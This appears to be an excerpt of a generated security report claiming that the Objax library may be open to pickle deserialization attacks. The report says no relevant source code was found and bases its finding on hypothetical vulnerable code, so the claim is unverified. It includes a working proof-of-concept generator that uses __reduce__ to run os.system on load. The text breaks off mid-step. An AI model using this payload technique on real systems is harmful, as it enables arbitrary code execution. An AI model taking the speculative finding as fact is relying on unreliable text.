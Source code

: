 *   **Source Code Analysis:**
    *   **No Source Code Available**: The provided project files do not include any code pertaining to model saving or loading. Consequently, a definitive source code analysis to pinpoint the vulnerability is not possible with the given information.
    *   **Assumed Vulnerable Code (Hypothetical)**: Assuming Objax has model loading functionality and it directly uses `pickle.load(file)` without sanitization, it would be vulnerable to deserialization attacks.
        ```python
        # Hypothetical vulnerable code snippet (not found in PROJECT FILES)
        import pickle
        import objax

        def load_model(file_path):
            with open(file_path, 'rb') as f:
                model = pickle.load(f) # POTENTIALLY VULNERABLE LINE
            return model
        ```
        In this hypothetical code, the line `pickle.load(f)` is vulnerable because it deserializes data from the file without any security checks, enabling arbitrary code execution from a maliciously crafted file.

*   **Security Test Case:**
    1.  **Setup Malicious Model File:**
        *   Create a Python script named `malicious_model_generator.py` to generate a malicious model file. This script leverages `pickle` to serialize a payload that executes arbitrary code upon deserialization.
        ```python
        # malicious_model_generator.py
        import pickle
        import objax
        import os

        class MaliciousModel(objax.Module):
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',)) # Malicious payload: creates file /tmp/pwned

        model = MaliciousModel()
        with open('malicious_model.objax', 'wb') as f:
            pickle.dump(model, f)
        ```
        *   Execute `python malicious_model_generator.py` to produce `malicious_model.objax`.

    2.  **Prepare Test Environment:**
        *   Assume a user has access to a publicly accessible instance of the Objax project (e.g., a Colab notebook or a local installation).
        *   Place the `malicious_model.objax` file in a location accessible to this Objax environment (e.g., cloud storage, local web server).

    3.  **Exploit Execution:**
        *   In the Objax environment, simulate a user loading the malicious model using a hypothetical `load_model` function (or the actual Objax model loading function if available):
        ```python
        # In Objax environment (Colab notebook or local installation)
        import objax
        import pickle
        import os
